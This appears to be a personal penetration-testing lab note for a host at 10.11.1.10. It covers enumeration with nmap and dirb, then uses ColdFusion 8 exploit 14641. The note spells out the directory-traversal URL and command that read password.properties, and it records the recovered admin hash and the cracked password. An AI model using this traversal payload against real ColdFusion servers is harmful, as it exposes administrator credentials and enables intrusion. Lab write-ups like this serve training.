



Enumeration

Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.10

# dirb
Non-recursive scan
### dirb http://10.11.1.10 -r

Recursive scan on the ColdFusion administrator link
### dirb http://10.11.1.10/CFIDE/administrator/

# Nikto

# Searchsploit
Search for ColdFusion

## Directory Traversal, exploit 14641
After examining the Directory Traversal exploit 14641 (-x switch), download it.

This is the exploit code for 14641
[14641.py](../../_resources/411c5cb7d09b473a9f8c5977f1552776.py)

The usage for 14641.py

Within the exploit,a string a working string is specified
### http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Run exploit on the CLI. Ensure to use the target IP
### python 14641.py 10.11.1.10 80 ../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Run the exploit on the browser as well
### http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

The Administrator has is found: 
### AAFDC23870ECBCD3D557B6423A8982134E17927E

# Crackstation

Crack the ColdFusion 8 'admin' password hash. Password is: pass123

# Other Tools
